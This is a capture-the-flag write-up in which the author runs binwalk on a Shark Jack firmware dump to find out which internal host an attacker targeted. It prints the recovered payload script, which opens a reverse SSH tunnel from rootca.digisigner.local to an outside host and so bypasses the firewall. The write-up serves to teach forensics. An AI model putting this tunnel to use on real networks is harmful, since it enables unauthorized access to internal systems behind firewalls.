 # Controlled Access

* **Category:** Forensics
* **Points:** 50
* **Challenge:** We've been asked to help a certificate authority figure out what a device they found plugged into their network was doing. They were able to dump the firmware and would like to know if it allowed the attacker to connect to any devices that their firewall (which blocks inbound SSH) would have stopped. Their internal domain uses 'digisigner.local' for DNS host names. The flag is the hostname of the internal host that the hacker targeted (i.e. ACI{[local hostname targeted]})
* **Hint #1:** A tool like binwalk might be useful for inspecting the firmware.
* **Hint #2:** The [documentation](https://docs.hak5.org/hc/en-us/categories/360002117973-Shark-Jack) mentions that the 'attack' payload for this device lives in a very particular spot on the filesystem..

<br /> 

First, lets use `binwalk` to search through the binary file for any other embedded files:
```
binwalk -e firmware.bin

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             uImage header, header size: 64 bytes, header CRC: 0x1E09FA95, created: 2019-11-06 04:52:00, image size: 1467840 bytes, Data Address: 0x80000000, Entry Point: 0x80000000, data CRC: 0x71E0036C, OS: Linux, CPU: MIPS, image type: OS Kernel Image, compression type: lzma, image name: "MIPS OpenWrt Linux-4.14.109"
64            0x40            LZMA compressed data, properties: 0x6D, dictionary size: 8388608 bytes, uncompressed size: 4644588 bytes
1467904       0x166600        Squashfs filesystem, little endian, version 4.0, compression:xz, size: 7125278 bytes, 1024 inodes, blocksize: 262144 bytes, created: 2020-04-23 14:56:04
```

<br />

Now lets take a look at everything binwalk extracted:
```
ls -la _firmware.bin.extracted/

total 19904
drwxr-xr-x  3 root root    4096 May 11 20:58 .
drwxr-xr-x  3 root root    4096 May 11 20:58 ..
-rw-r--r--  1 root root 7125278 May 11 20:58 166600.squashfs
-rw-r--r--  1 root root 4644588 May 11:w 20:58 40
-rw-r--r--  1 root root 8594880 May 11 20:58 40.7z
drwxr-xr-x 16 root root    4096 Nov  5  2019 squashfs-root
```

<br />

Looks like this device, Shark Jack,  has an embedded Linux filesystem, SquashFS.  Digging into the documentation[https://docs.hak5.org/hc/en-us/articles/360034130934-Directory-Structure], the payload to be executed should be located in /root/payload:
```
ls -la squashfs-root/root/payload/

total 12
drwxr-xr-x 2 root root 4096 Nov  5  2019 .
drwxr-xr-x 3 root root 4096 Nov  5  2019 ..
-rw-r--r-- 1 root root  276 Apr 23 10:56 payload.sh

cat squashfs-root/root/payload/payload.sh 

#!/bin/bash
#
# Title:         Secure Shark Jacker
# Author:        Mr. Robot
# Version:       13.37
#
INTERNAL_HOST=rootca.digisigner.local
INTERNAL_PORT=22

function run() {
    ssh -R localhost:31337:$INTERNAL_HOST:$INTERNAL_PORT garyhost@10.57.1.7
}


# Run payload
run &
```

<br /> 

We can see from the contents of the payload that the hacker targeted the internal host rootca.digisigner.local.

<br /> 

## Flag: ACI{rootca.digisigner.local}

